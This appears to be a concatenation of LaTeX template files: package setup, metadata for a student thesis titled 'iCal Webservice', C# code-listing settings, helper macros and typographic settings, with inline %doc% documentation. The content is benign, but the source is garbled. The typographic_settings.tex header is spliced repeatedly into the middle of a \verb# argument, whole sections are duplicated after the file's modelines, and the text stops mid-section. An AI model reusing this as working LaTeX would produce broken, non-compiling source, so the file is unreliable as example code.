%doc% \item[\texttt{\href{http://www.ctan.org/tex-archive/help/Catalogue/entries/xspace.html}{%%
%doc% xspace%%
%doc% }}]
%doc% This package is required for intelligent spacing after commands
\usepackage{xspace}

%doc% \item[\texttt{\href{https://secure.wikimedia.org/wikibooks/en/wiki/LaTeX/Colors}{%%
%doc% xcolor%%
%doc% }}]
%doc% This package defines basic colors. If you want to get rid of colored links and headings
%doc% please change corresponding value in \texttt{main.tex} to \{0,0,0\}.
\usepackage[usenames,dvipsnames]{xcolor}
\definecolor{DispositionColor}{RGB}{\mydispositioncolor} %% used for links and so forth in screen-version

%doc% \item[\texttt{\href{http://www.ctan.org/pkg/ulem}{%%
%doc% ulem%%
%doc% }}]
%doc% This package offers strikethrough command \verb+\sout{foobar}+.
\usepackage[normalem]{ulem}

%doc% \item[\texttt{\href{http://www.ctan.org/pkg/framed}{%%
%doc% framed%%
%doc% }}]
%doc% Create framed, shaded, or differently highlighted regions that can
%doc% break across pages.  The environments defined are
%doc% \begin{itemize}
%doc%   \item framed: ordinary frame box (\verb+\fbox+) with edge at margin
%doc%   \item shaded: shaded background (\verb+\colorbox+) bleeding into margin
%doc%   \item snugshade: similar
%doc%   \item leftbar: thick vertical line in left margin
%doc% \end{itemize}
\usepackage{framed}

%doc% \item[\texttt{\href{http://www.ctan.org/pkg/eso-pic}{%%
%doc% eso-pic%%
%doc% }}]
%doc% For example on title pages you might want to have a logo on the upper right corner of
%doc% the first page (only). The package \texttt{eso-pic} is able to place things on absolute
%doc% and relative positions on the whole page.
\usepackage{eso-pic}

%doc% \item[\texttt{\href{http://ctan.org/pkg/enumitem}{%%
%doc% enumitem%%
%doc% }}]
%doc% This package replaces the built-in definitions for enumerate, itemize and description.
%doc% With \texttt{enumitem} the user has more control over the layout of those environments.
\usepackage{enumitem}

%doc% \item[\texttt{\href{http://www.ctan.org/tex-archive/macros/latex/contrib/todonotes/}{%%
%doc% todonotes%%
%doc% }}]
%doc% This packages is \emph{very} handy to add notes\footnote{\texttt{todonotes} replaced
%doc% the \texttt{fixxme}-command which previously was defined in the
%doc% \texttt{preamble\_mycommands.tex} file.}. Using for example \verb#\todo{check}#
%doc% results in something like this \todo{check} in the document. Do read the
%doc% great package documentation for usage of other very helpful commands such as
%doc% \verb#\missingfigure{}# and \verb#\listoftodos#. The latter one creates an index of all
%doc% open todos which is very useful for getting an overview of open issues.
%doc% The package \texttt{todonotes} require the packages \texttt{ifthen}, \texttt{xkeyval}, \texttt{xcolor},
%doc% \texttt{tikz}, \texttt{calc}, and \texttt{graphicx}. Activate
%doc% and configure \verb#\listoftodos# in \texttt{main.tex}.
%\usepackage{todonotes}
\usepackage[\mytodonotesoptions]{todonotes}  %% option "disable" removes all todonotes output from resulting document

%disabled% \item[\texttt{\href{http://www.ctan.org/tex-archive/macros/latex/contrib/blindtext}{%%
%disabled% blindtext%%
%disabled% }}]
%disabled% This package is used to generate blind text for demonstration purposes.
%disabled% %% This is undocumented due to problems using american english; author informed
%disabled% \usepackage{blindtext}  %% provides commands for blind text:
%disabled% %% \blindtext creates some text,
%disabled% %% \Blindtext creates more text.
%disabled% %% \blinddocument creates a small document with sections, lists...
%disabled% %% \Blinddocument creates a large document with sections, lists...
%% 2012-03-10: vk: author published a corrected version which is able to handle "american english" as well. Did not have time to check new package version for this template here.

%doc% \item[\texttt{\href{http://ctan.org/tex-archive/macros/latex/contrib/units}{%%
%doc% units%%
%doc% }}]
%doc% For setting correctly typesetted units and nice fractions with \verb+\unit[42]{m}+ and \verb+\unitfrac[100]{km}{h}+.
\usepackage{units}


%doc% \end{enumerate}




%%%% End
%%% Local Variables:
%%% TeX-master: "../main"
%%% mode: latex
%%% mode: auto-fill
%%% mode: flyspell
%%% eval: (ispell-change-dictionary "en_US")
%%% End:
%% vim:foldmethod=expr
%% vim:fde=getline(v\:lnum)=~'^%%%%'?0\:getline(v\:lnum)=~'^%doc.*\ .\\%(sub\\)\\?section{.\\+'?'>1'\:'1':
%% DO NOT REMOVE THIS LINE!

\setboolean{myaddcolophon}{false}  %% "true" or "false"
%% If set to "true": a colophon (with notes about this document
%% template, LaTeX, ...) is added after the title page.
%% Please do not set to "false" without a good reason. The colophon
%% helps your readers to get in touch with LaTeX and to find this template.

\setboolean{myaddlistoftodos}{false}  %% "true" or "false"
%% If set to "true": the current list of open todos is added after the
%% table of contents. If \mytodonotesoptions is set to "disable", no
%% list of todos is added, independent of this setting here.

\setboolean{english_affidavit}{false}  %% "true" or "false"
%% If set to "true": the language of the statutory declaration text is set to
%% English, otherwise it is in German.


%% ========================================================================
%%%% Document metadata
%% ========================================================================

%% general metadata:
\newcommand{\myauthor}{Matthias Franz, Marcel Stering, Dario Wagner}
\newcommand{\myauthorwithexistingtitles}{\myauthor{}}
\newcommand{\mytitle}{iCal Webservice} 

%% this information is used only for generating the title page:
\newcommand{\myworktitle}{Diplomarbeit}
\newcommand{\myuniversity}{Graz University of Technology}
\newcommand{\myinstitute}{HTL Kaindorf}
\newcommand{\mysupervisor}{Gernot Loibner}
\newcommand{\mypartner}{Intact GmbH}
\newcommand{\myhometown}{Kaindorf a. d. Sulm} %% your home town
\newcommand{\myhomepostalnumber}{8010} %% your postal number of home town
\newcommand{\mysubmissionmonth}{April} %% month you are handing in
\newcommand{\mysubmissionyear}{2019} %% year you are handing in
\newcommand{\mysubmissiontown}{\myhometown} %% town of handing in (or \myhometown)


%% additional information for generic_documentation title page
\newcommand{\myid}{1234567} %% Matrikelnummer
\newcommand{\mylecture}{LECTURE} %%

%----------------------UNSER STUFF----------------------------

\usepackage{float}
\usepackage{graphicx}
\graphicspath{ {./figures/} }

\definecolor{bluekeywords}{rgb}{0,0,1}
\definecolor{greencomments}{rgb}{0,0.5,0}
\definecolor{redstrings}{rgb}{0.64,0.08,0.08}
\definecolor{xmlcomments}{rgb}{0.5,0.5,0.5}
\definecolor{types}{rgb}{0.17,0.57,0.68}

% C# Code formatierung
\usepackage{listings}
\lstset{language=[Sharp]C,
captionpos=b,
showspaces=false,
showtabs=false,
breaklines=true,
showstringspaces=false,
breakatwhitespace=true,
escapeinside={(*@}{@*)},
commentstyle=\color{greencomments},
morekeywords={partial, var, value, get, set},
keywordstyle=\color{bluekeywords},
stringstyle=\color{redstrings},
basicstyle=\ttfamily\small,
}

\usepackage{fancyhdr}
\newcommand{\theauthor}{}

\pagestyle{fancy}
\fancyhf{}
\fancyhead[LO,RE]{\theauthor}
\fancyfoot[LO,RE]{\thepage}

%----------------------ENDE UNSER STUFF-----------------------

%% Time-stamp: <2015-04-30 17:19:58 vk>
%%%% === Disclaimer: =======================================================
%% created by
%%
%%      Karl Voit
%%
%% using GNU/Linux, GNU Emacs & LaTeX 2e
%%

%doc%
%doc% \section{\texttt{mycommands.tex} --- various definitions}\myinteresting
%doc% \label{sec:mycommands}
%doc%
%doc% In file \verb#template/mycommands.tex# many useful commands are being
%doc% defined. 
%doc% 
%doc% \paragraph{What should I do with this file?} Please take a look at its 
%doc% content to get the most out of your document.
%doc% 

%doc% 
%doc% One of the best advantages of \LaTeX{} compared to \myacro{WYSIWYG} software products is
%doc% the possibility to define and use macros within text. This empowers the user to
%doc% a great extend.  Many things can be defined using \verb#\newcommand{}# and
%doc% automates repeating tasks. It is recommended to use macros not only for
%doc% repetitive tasks but also for separating form from content such as \myacro{CSS}
%doc% does for \myacro{XHTML}. Think of including graphics in your document: after
%doc% writing your book, you might want to change all captions to the upper side of
%doc% each figure. In this case you either have to modify all
%doc% \texttt{includegraphics} commands or you were clever enough to define something
%doc% like \verb#\myfig#\footnote{See below for a detailed description}. Using a
%doc% macro for including graphics enables you to modify the position caption on only
%doc% \emph{one} place: at the definition of the macro.
%doc% 
%doc% The following section describes some macros that came with this document template
%doc% from \myLaT and you are welcome to modify or extend them or to create
%doc% your own macros!
%doc% 

%doc% 
%doc% \subsection{\texttt{myfig} --- including graphics made easy}
%doc% 
%doc% The classic: you can easily add graphics to your document with \verb#\myfig#:
%doc% \begin{verbatim}
%doc%  \myfig{flower}%% filename w/o extension in the folder figures
%doc%        {width=0.7\textwidth}%% maximum width/height, aspect ratio will be kept
%doc%        {This flower was photographed at my home town in 2010}%% caption
%doc%        {Home town flower}%% optional (short) caption for list of figures
%doc%        {fig:flower}%% label
%doc% \end{verbatim}
%doc% 
%doc% There are many advantages of this command (compared to manual
%doc% \texttt{figure} environments and \texttt{includegraphics} commands:
%doc% \begin{itemize}
%doc% \item consistent style throughout the whole document
%doc% \item easy to change; for example move caption on top
%doc% \item much less characters to type (faster, error prone)
%doc% \item less visual clutter in the \TeX{}-files
%doc% \end{itemize}
%doc% 
%doc% 
\newcommand{\myfig}[5]{
%% example:
% \myfig{}%% filename in figures folder
%       {width=0.5\textwidth,height=0.5\textheight}%% maximum width/height, aspect ratio will be kept
%       {}%% caption
%       {}%% optional (short) caption for list of figures
%       {}%% label
\begin{figure}%[htp]
  \centering
  \includegraphics[keepaspectratio,#2]{figures/#1}
  \caption[#4]{#3}
  \label{#5} %% NOTE: always label *after* caption!
\end{figure}
}


%doc% 
%doc% \subsection{\texttt{myclone} --- repeat things!}
%doc% 
%doc% Using \verb#\myclone[42]{foobar}# results the text \enquote{foobar} printed 42 times.
%doc% But you can not only repeat text output with \texttt{myclone}. 
%doc%
%doc% Default argument
%doc% for the optional parameter \enquote{number of times} (like \enquote{42} in the example above) 
%doc% is set to two.
%doc% 
%% \myclone[x]{text}
\newcounter{myclonecnt}
\newcommand{\myclone}[2][2]{%
  \setcounter{myclonecnt}{#1}%
  \whiledo{\value{myclonecnt}>0}{#2\addtocounter{myclonecnt}{-1}}%
}

%old% %d oc% 
%old% %d oc% \subsection{\texttt{fixxme} --- sidemark something as unfinished}
%old% %d oc% 
%old% %d oc% You know it: something has to be fixed and you can not do it right
%old% %d oc% now. In order to \texttt{not} forget about it, you might want to add a
%old% %d oc% note like \verb+\fixxme{check again}+ which inserts a note on the page
%old% %d oc% margin such as this\fixxme{check again} example.
%old% %d oc%
%old% \newcommand{\fixxme}[1]{%%
%old% \textcolor{red}{FIXXME}\marginpar{\textcolor{red}{#1}}%%
%old% }


%%%% End 
%%% Local Variables:
%%% mode: latex
%%% mode: auto-fill
%%% mode: flyspell
%%% eval: (ispell-change-dictionary "en_US")
%%% TeX-master: "../main"
%%% End:
%% vim:foldmethod=expr
%% vim:fde=getline(v\:lnum)=~'^%%%%'?0\:getline(v\:lnum)=~'^%doc.*\ .\\%(sub\\)\\?section{.\\+'?'>1'\:'1':


%%%% Time-stamp: <2015-08-22 17:20:32 vk>
%%%% === Disclaimer: =======================================================
%% created by
%%
%%      Karl Voit
%%
%% using GNU/Linux, GNU Emacs & LaTeX 2e
%%
%doc%
%doc% \section{\texttt{typographic\_settings.tex} --- Typographic finetuning}
%doc%
%doc% The settings of file \verb#template/typographic_settings.tex# contain
%doc% typographic finetuning related to things mentioned in literature.  The
%doc% settings in this file relates to personal taste and most of all: 
%doc% \emph{typographic experience}. 
%doc% 
%doc% \paragraph{What should I do with this file?} You might as well skip the whole
%doc% file by excluding the \verb#%%%% Time-stamp: <2015-08-22 17:20:32 vk>
%%%% === Disclaimer: =======================================================
%% created by
%%
%%      Karl Voit
%%
%% using GNU/Linux, GNU Emacs & LaTeX 2e
%%
%doc%
%doc% \section{\texttt{typographic\_settings.tex} --- Typographic finetuning}
%doc%
%doc% The settings of file \verb#template/typographic_settings.tex# contain
%doc% typographic finetuning related to things mentioned in literature.  The
%doc% settings in this file relates to personal taste and most of all: 
%doc% \emph{typographic experience}. 
%doc% 
%doc% \paragraph{What should I do with this file?} You might as well skip the whole
%doc% file by excluding the \verb#%%%% Time-stamp: <2015-08-22 17:20:32 vk>
%%%% === Disclaimer: =======================================================
%% created by
%%
%%      Karl Voit
%%
%% using GNU/Linux, GNU Emacs & LaTeX 2e
%%
%doc%
%doc% \section{\texttt{typographic\_settings.tex} --- Typographic finetuning}
%doc%
%doc% The settings of file \verb#template/typographic_settings.tex# contain
%doc% typographic finetuning related to things mentioned in literature.  The
%doc% settings in this file relates to personal taste and most of all: 
%doc% \emph{typographic experience}. 
%doc% 
%doc% \paragraph{What should I do with this file?} You might as well skip the whole
%doc% file by excluding the \verb#\input{template/typographic_settings.tex}# command
%doc% in \texttt{main.tex}.  For standard usage it is recommended to stay with the
%doc% default settings.
%doc% 
%doc% 
%% ========================================================================

%doc%
%doc% Some basic microtypographic settings are provided by the
%doc% \texttt{microtype}
%doc% package\footnote{\url{http://ctan.org/pkg/microtype}}. This template
%doc% uses the rather conservative package parameters: \texttt{protrusion=true,factor=900}.
\usepackage[protrusion=true,factor=900]{microtype}

%doc%
%doc% \subsection{French spacing}
%doc%
%doc% \paragraph{Why?} see~\textcite[p.\,28, p.\,30]{Bringhurst1993}: `2.1.4 Use a single word space between sentences.'
%doc%
%doc% \paragraph{How?} see~\textcite[p.\,185]{Eijkhout2008}:\\
%doc% \verb#\frenchspacing  %% Macro to switch off extra space after punctuation.# \\
\frenchspacing  %% Macro to switch off extra space after punctuation.
%doc%
%doc% Note: This setting might be default for \myacro{KOMA} script.
%doc%


%doc%
%doc% \subsection{Font}
%doc% 
%doc% This template is using the Palatino font (package \texttt{mathpazo}) which results
%doc% in a legible document and matching mathematical fonts for printout.
%doc% 
%doc% It is highly recommended that you either stick to the Palatino font or use the
%doc% \LaTeX{} default fonts (by removing the package \texttt{mathpazo}).
%doc% 
%doc% Chosing different fonts is not
%doc% an easy task. Please leave this to people with good knowledge on this subject.
%doc% 
%doc% One valid reason to change the default fonts is when your document is mainly
%doc% read on a computer screen. In this case it is recommended to switch to a font
%doc% \textsf{which is sans-serif like this}. This template contains several alternative
%doc% font packages which can be activated in this file.
%doc% 

% for changing the default font, please go to the next subsection!

%doc%
%doc% \subsection{Text figures}
%doc% 
%doc% \ldots also called old style numbers such as 0123456789. 
%doc% (German: \enquote{Mediäval\-ziffern\footnote{\url{https://secure.wikimedia.org/wikibooks/de/wiki/LaTeX-W\%C3\%B6rterbuch:\_Medi\%C3\%A4valziffern}}})
%doc% \paragraph{Why?} see~\textcite[p.\,44f]{Bringhurst1993}: 
%doc% \begin{quote}
%doc% `3.2.1 If the font includes both text figures and titling figures, use
%doc%  titling figures only with full caps, and text figures in all other
%doc%  circumstances.'
%doc% \end{quote}
%doc% 
%doc% \paragraph{How?} 
%doc% Quoted from Wikibooks\footnote{\url{https://secure.wikimedia.org/wikibooks/en/wiki/LaTeX/Formatting\#Text\_figures\_.28.22old\_style.22\_numerals.29}}:
%doc% \begin{quote}
%doc% Some fonts do not have text figures built in; the textcomp package attempts to
%doc% remedy this by effectively generating text figures from the currently-selected
%doc% font. Put \verb#\usepackage{textcomp}# in your preamble. textcomp also allows you to
%doc% use decimal points, properly formatted dollar signs, etc. within
%doc% \verb#\oldstylenums{}#.
%doc% \end{quote}
%doc% \ldots but proposed \LaTeX{} method does not work out well. Instead use:\\
%doc% \verb#\usepackage{hfoldsty}#  (enables text figures using additional font) or \\
%doc% \verb#\usepackage[sc,osf]{mathpazo}# (switches to Palatino font with small caps and old style figures enabled).
%doc%
%\usepackage{hfoldsty}  %% enables text figures using additional font
%% ... OR use ...
\usepackage[sc,osf]{mathpazo} %% switches to Palatino with small caps and old style figures

%% Font selection from:
%%     http://www.matthiaspospiech.de/latex/vorlagen/allgemein/preambel/fonts/
%% use following lines *instead* of the mathpazo package above:
%% ===== Serif =========================================================
%% for Computer Modern (LaTeX default font), simply remove the mathpazo above
%\usepackage{charter}\linespread{1.05} %% Charter
%\usepackage{bookman}                  %% Bookman (laedt Avant Garde !!)
%\usepackage{newcent}                  %% New Century Schoolbook (laedt Avant Garde !!)
%% ===== Sans Serif ====================================================
%\renewcommand{\familydefault}{\sfdefault}  %% this one in *combination* with the default mathpazo package
%\usepackage{cmbright}                  %% CM-Bright (eigntlich eine Familie)
%\usepackage{tpslifonts}                %% tpslifonts % Font for Slides


%doc% 
%doc% \subsection{\texttt{myacro} --- Abbrevations using \textsc{small caps}}\myinteresting
%doc% \label{sec:myacro}
%doc% 
%doc% \paragraph{Why?} see~\textcite[p.\,45f]{Bringhurst1993}: `3.2.2 For abbrevations and
%doc% acronyms in the midst of normal text, use spaced small caps.'
%doc% 
%doc% \paragraph{How?} Using the predefined macro \verb#\myacro{}# for things like
%doc% \myacro{UNO} or \myacro{UNESCO} using \verb#\myacro{UNO}# or \verb#\myacro{UNESCO}#.
%doc% 
\DeclareRobustCommand{\myacro}[1]{\textsc{\lowercase{#1}}} %%  abbrevations using small caps


%doc% 
%doc% \subsection{Colorized headings and links}
%doc% 
%doc% This document template is able to generate an output that uses colorized
%doc% headings, captions, page numbers, and links. The color named `DispositionColor'
%doc% used in this document is defined near the definition of package \texttt{color}
%doc% in the preamble (see section~\ref{subsec:miscpackages}). The changes required
%doc% for headings, page numbers, and captions are defined here.
%doc% 
%doc% Settings for colored links are handled by the definitions of the
%doc% \texttt{hyperref} package (see section~\ref{sec:pdf}).
%doc% 
%\setheadsepline{.4pt}[\color{DispositionColor}]
\renewcommand{\headfont}{\normalfont\sffamily\color{DispositionColor}}
\renewcommand{\pnumfont}{\normalfont\sffamily\color{DispositionColor}}
\addtokomafont{disposition}{\color{DispositionColor}}
\addtokomafont{caption}{\color{DispositionColor}\footnotesize}
\addtokomafont{captionlabel}{\color{DispositionColor}}

%doc% 
%doc% \subsection{No figures or tables below footnotes}
%doc% 
%doc% \LaTeX{} places floating environments below footnotes if \texttt{b}
%doc% (bottom) is used as (default) placement algorithm. This is certainly
%doc% not appealing for most people and is deactivated in this template by
%doc% using the package \texttt{footmisc} with its option \texttt{bottom}.
%doc% 
%% see also: http://www.komascript.de/node/858 (German description)
\usepackage[bottom]{footmisc}

%doc% 
%doc% \subsection{Spacings of list environments}
%doc% 
%doc% By default, \LaTeX{} is using vertical spaces between items of enumerate, 
%doc% itemize and description environments. This is fine for multi-line items.
%doc% Many times, the user does just write single-line items where the larger
%doc% vertical space is inappropriate. The \href{http://ctan.org/pkg/enumitem}{enumitem}
%doc% package provides replacements for the pre-defined list environments and
%doc% offers many options to modify their appearances.
%doc% This template is using the package option for \texttt{noitemsep} which
%doc% mimimizes the vertical space between list items.
%doc% 
\usepackage{enumitem}
\setlist{noitemsep}   %% kills the space between items

%doc% 
%doc% \subsection{\texttt{csquotes} --- Correct quotation marks}\myinteresting
%doc% \label{sub:csquotes}
%doc% 
%doc% \emph{Never} use quotation marks found on your keyboard.
%doc% They end up in strange characters or false looking quotation marks.
%doc% 
%doc% In \LaTeX{} you are able to use typographically correct quotation marks. The package 
%doc% \href{http://www.ctan.org/pkg/csquotes}{\texttt{csquotes}} offers you with 
%doc% \verb#\enquote{foobar}# a command to get correct quotation marks around \enquote{foobar}.
%doc% Please do check the package options in order to modify
%doc% its settings according to the language used\footnote{most of the time in 
%doc% combination with the language set in the options of the \texttt{babel} package}.
%doc% 
%doc% \href{http://www.ctan.org/pkg/csquotes}{\texttt{csquotes}} is also recommended 
%doc% by \texttt{biblatex} (see Section~\ref{sec:references}). 
\usepackage[babel=true,strict=true,english=american,german=guillemets]{csquotes}

%doc% 
%doc% \subsection{Line spread}
%doc% 
%doc% If you have to enlarge the distance between two lines of text, you can
%doc% increase it using the \texttt{\mylinespread} command in \texttt{main.tex}. By default, it is
%doc% deactivated (set to 100~percent). Modify only with caution since it influences the
%doc% page layout and could lead to ugly looking documents.
\linespread{\mylinespread}

%doc% 
%doc% \subsection{Optional: Lines above and below the chapter head}
%doc% 
%doc% This is not quite something typographic but rather a matter of taste.
%doc% \myacro{KOMA} Script offers \href{http://www.komascript.de/node/24}{a method to
%doc% add lines above and below chapter head} which is disabled by
%doc% default. If you want to enable this feature, remove corresponding
%doc% comment characters from the settings.
%doc% 
%% Source: http://www.komascript.de/node/24
%disabled% %% 1st get a new command
%disabled% \newcommand*{\ORIGchapterheadstartvskip}{}%
%disabled% %% 2nd save the original definition to the new command
%disabled% \let\ORIGchapterheadstartvskip=\chapterheadstartvskip
%disabled% %% 3rd redefine the command using the saved original command
%disabled% \renewcommand*{\chapterheadstartvskip}{%
%disabled%   \ORIGchapterheadstartvskip
%disabled%   {%
%disabled%     \setlength{\parskip}{0pt}%
%disabled%     \noindent\color{DispositionColor}\rule[.3\baselineskip]{\linewidth}{1pt}\par
%disabled%   }%
%disabled% }
%disabled% %% see above
%disabled% \newcommand*{\ORIGchapterheadendvskip}{}%
%disabled% \let\ORIGchapterheadendvskip=\chapterheadendvskip
%disabled% \renewcommand*{\chapterheadendvskip}{%
%disabled%   {%
%disabled%     \setlength{\parskip}{0pt}%
%disabled%     \noindent\color{DispositionColor}\rule[.3\baselineskip]{\linewidth}{1pt}\par
%disabled%   }%
%disabled%   \ORIGchapterheadendvskip
%disabled% }

%doc% 
%doc% \subsection{Optional: Chapter thumbs}
%doc% 
%doc% This is not quite something typographic but rather a matter of taste.
%doc% \myacro{KOMA} Script offers \href{http://www.komascript.de/chapterthumbs-example}{a method to
%doc% add chapter thumbs} (in combination with the package \texttt{scrpage2}) which is disabled by
%doc% default. If you want to enable this feature, remove corresponding
%doc% comment characters from the settings.
%doc% 
%disabled% \makeatletter
%disabled% % Safty first
%disabled% \@ifundefined{chapter}{\let\chapter\undefined
%disabled%   \chapter must be defined to use chapter thumbs!}{%
%disabled%  
%disabled% % Two new commands for the width and height of the boxes with the
%disabled% % chapter number at the thumbs (use of commands instead of lengths
%disabled% % for sparing registers)
%disabled% \newcommand*{\chapterthumbwidth}{2em}
%disabled% \newcommand*{\chapterthumbheight}{1em}
%disabled%  
%disabled% % Two new commands for the colors of the box background and the
%disabled% % chapter numbers of the thumbs
%disabled% \newcommand*{\chapterthumbboxcolor}{black}
%disabled% \newcommand*{\chapterthumbtextcolor}{white}
%disabled%  
%disabled% % New command to set a chapter thumb. I'm using a group at this
%disabled% % command, because I'm changing the temporary dimension \@tempdima
%disabled% \newcommand*{\putchapterthumb}{%
%disabled%   \begingroup
%disabled%     \Large
%disabled%     % calculate the horizontal possition of the right paper border
%disabled%     % (I ignore \hoffset, because I interprete \hoffset moves the page
%disabled%     % at the paper e.g. if you are using cropmarks)
%disabled%     \setlength{\@tempdima}{\@oddheadshift}% (internal from scrpage2)
%disabled%     \setlength{\@tempdima}{-\@tempdima}%
%disabled%     \addtolength{\@tempdima}{\paperwidth}%
%disabled%     \addtolength{\@tempdima}{-\oddsidemargin}%
%disabled%     \addtolength{\@tempdima}{-1in}%
%disabled%     % putting the thumbs should not change the horizontal
%disabled%     % possition
%disabled%     \rlap{%
%disabled%       % move to the calculated horizontal possition
%disabled%       \hspace*{\@tempdima}%
%disabled%       % putting the thumbs should not change the vertical
%disabled%       % possition
%disabled%       \vbox to 0pt{%
%disabled%         % calculate the vertical possition of the thumbs (I ignore
%disabled%         % \voffset for the same reasons told above)
%disabled%         \setlength{\@tempdima}{\chapterthumbwidth}%
%disabled%         \multiply\@tempdima by\value{chapter}%
%disabled%         \addtolength{\@tempdima}{-\chapterthumbwidth}%
%disabled%         \addtolength{\@tempdima}{-\baselineskip}%
%disabled%         % move to the calculated vertical possition
%disabled%         \vspace*{\@tempdima}%
%disabled%         % put the thumbs left so the current horizontal possition
%disabled%         \llap{%
%disabled%           % and rotate them
%disabled%           \rotatebox{90}{\colorbox{\chapterthumbboxcolor}{%
%disabled%               \parbox[c][\chapterthumbheight][c]{\chapterthumbwidth}{%
%disabled%                 \centering
%disabled%                 \textcolor{\chapterthumbtextcolor}{%
%disabled%                   \strut\thechapter}\\
%disabled%               }%
%disabled%             }%
%disabled%           }%
%disabled%         }%
%disabled%         % avoid overfull \vbox messages
%disabled%         \vss
%disabled%       }%
%disabled%     }%
%disabled%   \endgroup
%disabled% }
%disabled%  
%disabled% % New command, which works like \lohead but also puts the thumbs (you
%disabled% % cannot use \ihead with this definition but you may change this, if
%disabled% % you use more internal scrpage2 commands)
%disabled% \newcommand*{\loheadwithchapterthumbs}[2][]{%
%disabled%   \lohead[\putchapterthumb#1]{\putchapterthumb#2}%
%disabled% }
%disabled%  
%disabled% % initial use
%disabled% \loheadwithchapterthumbs{}
%disabled% \pagestyle{scrheadings}
%disabled%  
%disabled% }
%disabled% \makeatother

%%%% END
%%% Local Variables:
%%% mode: latex
%%% mode: auto-fill
%%% mode: flyspell
%%% eval: (ispell-change-dictionary "en_US")
%%% TeX-master: "../main"
%%% End:
%% vim:foldmethod=expr
%% vim:fde=getline(v\:lnum)=~'^%%%%'?0\:getline(v\:lnum)=~'^%doc.*\ .\\%(sub\\)\\?section{.\\+'?'>1'\:'1':
# command
%doc% in \texttt{main.tex}.  For standard usage it is recommended to stay with the
%doc% default settings.
%doc% 
%doc% 
%% ========================================================================

%doc%
%doc% Some basic microtypographic settings are provided by the
%doc% \texttt{microtype}
%doc% package\footnote{\url{http://ctan.org/pkg/microtype}}. This template
%doc% uses the rather conservative package parameters: \texttt{protrusion=true,factor=900}.
\usepackage[protrusion=true,factor=900]{microtype}

%doc%
%doc% \subsection{French spacing}
%doc%
%doc% \paragraph{Why?} see~\textcite[p.\,28, p.\,30]{Bringhurst1993}: `2.1.4 Use a single word space between sentences.'
%doc%
%doc% \paragraph{How?} see~\textcite[p.\,185]{Eijkhout2008}:\\
%doc% \verb#\frenchspacing  %% Macro to switch off extra space after punctuation.# \\
\frenchspacing  %% Macro to switch off extra space after punctuation.
%doc%
%doc% Note: This setting might be default for \myacro{KOMA} script.
%doc%


%doc%
%doc% \subsection{Font}
%doc% 
%doc% This template is using the Palatino font (package \texttt{mathpazo}) which results
%doc% in a legible document and matching mathematical fonts for printout.
%doc% 
%doc% It is highly recommended that you either stick to the Palatino font or use the
%doc% \LaTeX{} default fonts (by removing the package \texttt{mathpazo}).
%doc% 
%doc% Chosing different fonts is not
%doc% an easy task. Please leave this to people with good knowledge on this subject.
%doc% 
%doc% One valid reason to change the default fonts is when your document is mainly
%doc% read on a computer screen. In this case it is recommended to switch to a font
%doc% \textsf{which is sans-serif like this}. This template contains several alternative
%doc% font packages which can be activated in this file.
%doc% 

% for changing the default font, please go to the next subsection!

%doc%
%doc% \subsection{Text figures}
%doc% 
%doc% \ldots also called old style numbers such as 0123456789. 
%doc% (German: \enquote{Mediäval\-ziffern\footnote{\url{https://secure.wikimedia.org/wikibooks/de/wiki/LaTeX-W\%C3\%B6rterbuch:\_Medi\%C3\%A4valziffern}}})
%doc% \paragraph{Why?} see~\textcite[p.\,44f]{Bringhurst1993}: 
%doc% \begin{quote}
%doc% `3.2.1 If the font includes both text figures and titling figures, use
%doc%  titling figures only with full caps, and text figures in all other
%doc%  circumstances.'
%doc% \end{quote}
%doc% 
%doc% \paragraph{How?} 
%doc% Quoted from Wikibooks\footnote{\url{https://secure.wikimedia.org/wikibooks/en/wiki/LaTeX/Formatting\#Text\_figures\_.28.22old\_style.22\_numerals.29}}:
%doc% \begin{quote}
%doc% Some fonts do not have text figures built in; the textcomp package attempts to
%doc% remedy this by effectively generating text figures from the currently-selected
%doc% font. Put \verb#\usepackage{textcomp}# in your preamble. textcomp also allows you to
%doc% use decimal points, properly formatted dollar signs, etc. within
%doc% \verb#\oldstylenums{}#.
%doc% \end{quote}
%doc% \ldots but proposed \LaTeX{} method does not work out well. Instead use:\\
%doc% \verb#\usepackage{hfoldsty}#  (enables text figures using additional font) or \\
%doc% \verb#\usepackage[sc,osf]{mathpazo}# (switches to Palatino font with small caps and old style figures enabled).
%doc%
%\usepackage{hfoldsty}  %% enables text figures using additional font
%% ... OR use ...
\usepackage[sc,osf]{mathpazo} %% switches to Palatino with small caps and old style figures

%% Font selection from:
%%     http://www.matthiaspospiech.de/latex/vorlagen/allgemein/preambel/fonts/
%% use following lines *instead* of the mathpazo package above:
%% ===== Serif =========================================================
%% for Computer Modern (LaTeX default font), simply remove the mathpazo above
%\usepackage{charter}\linespread{1.05} %% Charter
%\usepackage{bookman}                  %% Bookman (laedt Avant Garde !!)
%\usepackage{newcent}                  %% New Century Schoolbook (laedt Avant Garde !!)
%% ===== Sans Serif ====================================================
%\renewcommand{\familydefault}{\sfdefault}  %% this one in *combination* with the default mathpazo package
%\usepackage{cmbright}                  %% CM-Bright (eigntlich eine Familie)
%\usepackage{tpslifonts}                %% tpslifonts % Font for Slides


%doc% 
%doc% \subsection{\texttt{myacro} --- Abbrevations using \textsc{small caps}}\myinteresting
%doc% \label{sec:myacro}
%doc% 
%doc% \paragraph{Why?} see~\textcite[p.\,45f]{Bringhurst1993}: `3.2.2 For abbrevations and
%doc% acronyms in the midst of normal text, use spaced small caps.'
%doc% 
%doc% \paragraph{How?} Using the predefined macro \verb#\myacro{}# for things like
%doc% \myacro{UNO} or \myacro{UNESCO} using \verb#\myacro{UNO}# or \verb#\myacro{UNESCO}#.
%doc% 
\DeclareRobustCommand{\myacro}[1]{\textsc{\lowercase{#1}}} %%  abbrevations using small caps


%doc% 
%doc% \subsection{Colorized headings and links}
%doc% 
%doc% This document template is able to generate an output that uses colorized
%doc% headings, captions, page numbers, and links. The color named `DispositionColor'
%doc% used in this document is defined near the definition of package \texttt{color}
%doc% in the preamble (see section~\ref{subsec:miscpackages}). The changes required
%doc% for headings, page numbers, and captions are defined here.
%doc% 
%doc% Settings for colored links are handled by the definitions of the
%doc% \texttt{hyperref} package (see section~\ref{sec:pdf}).
%doc% 
%\setheadsepline{.4pt}[\color{DispositionColor}]
\renewcommand{\headfont}{\normalfont\sffamily\color{DispositionColor}}
\renewcommand{\pnumfont}{\normalfont\sffamily\color{DispositionColor}}
\addtokomafont{disposition}{\color{DispositionColor}}
\addtokomafont{caption}{\color{DispositionColor}\footnotesize}
\addtokomafont{captionlabel}{\color{DispositionColor}}

%doc% 
%doc% \subsection{No figures or tables below footnotes}
%doc% 
